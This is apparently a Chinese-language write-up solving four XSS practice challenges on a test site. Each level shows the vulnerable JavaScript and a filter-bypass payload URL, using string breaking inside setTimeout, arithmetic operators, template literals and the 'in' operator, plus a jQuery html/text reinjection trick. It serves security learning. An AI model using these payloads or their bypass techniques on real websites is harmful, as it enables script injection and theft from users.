








## 参考

- [chrome下对js断点调试的方法汇总](https://www.toolmao.com/342.html)
- [一些BAT的XSS实例（一）](https://mp.weixin.qq.com/s/Nxjn_SUAfrB-K5z6YdlW8g)
- [一些BAT的XSS实例（二）](https://mp.weixin.qq.com/s/Q976z2ryfkEJQiSyl8aH8g)

### 1. http://px1624.sinaapp.com/test/xsstest1/

```html
<script type="text/javascript">
var x=location.hash;
function aa(x){};
setTimeout("aa('"+x+"')",100);
</script>
Give me xss bypass 1~
```

利用js函数的性质：
```js
function myFunction(p1, p2) {
    return p1 * p2;              // 该函数返回 p1 和 p2 的乘积
}

// 普通的计算乘积
myFunction(2,3)
6
// 执行任意js代码
myFunction(2,alert(77),3)
NaN
```

所以这里令x="#',alert(1),'"
即可拼接出：
```
setTimeout("aa('#',alert(1),'')",100);
```
参考setTimeout用法：
```
setTimeout("alert('对不起, 要你久候')", 3000 )
```
参考：https://www.runoob.com/w3cnote/javascript-settimeout-usage.html

准确地，
```
aa('#',alert(1),'')
```
本来aa函数期待1个参数，也可以通过闭合单引号传入三个参数。
或者
```
');alert(1)//
```
闭合前面的单引号和括号，然后执行任意js，然后使用//注释掉后面的代码。


### 2. http://px1624.sinaapp.com/test/xsstest2/

```js
$("#xx")["html"]($("#xx")["text"]());
```
其中
```
$("#xx")["html"]()
```
相当于
```
$("#xx").html()
```
而$("#xx")["text"]()相当于$("#xx").text()

于是

```js
$("#xx")["html"]("")
```
就相当于
```js
$("#xx").html("")
```

其中的知识点为：
> text();设置或者获取所选元素的文本内容；
html();设置或者获取所选元素的内容（包括html标记）；

参考：https://www.cnblogs.com/fozero/p/5916878.html
- 当函数传参时，表示设置；
- 当函数参数为空时，表示选取。



### 3. http://px1624.sinaapp.com/test/xsstest3/

前端的请求参数是px，
但是`<>"`被转义，但是`'`未被转义。

但是在js函数中要确保两条语句都语法正确，否则则无法完成函数执行。


通过`,` 和`;`以及`'`的组合发现无法确保两条语句同时语法正确。答案是利用`*`
完整payload：
```
http://px1624.sinaapp.com/test/xsstest3/?px=aaa%27*alert(77)*%27bbb
```
原来乘法中的被乘数也可以是xss的payload：

当然不止乘法，加法、减法都是可以的。


### 4. http://px1624.sinaapp.com/test/xsstest4/

前端展示差不多，但是后端代码不同了。参考答案是过滤了
```
<>+-*/&|~^%!?=
```
但是没过滤`'"`。这是与第3题的不同。

答案：
```
http://px1624.sinaapp.com/test/xsstest4/?px=%27;`;{alert(%271
```

利用了js的模板字符串可以换行的特点，可以完成普通引号无法完成的语法。（避免中间的引号无法转义的问题）
参考：
https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings

还有一种解法是利用`in`或者`instanceof`这个语法，因为`in`和`instanceof`也是一种运算符，参考：
https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference
```
http://px1624.sinaapp.com/test/xsstest4/?px=%27in%20alert(1)%20in%27
```

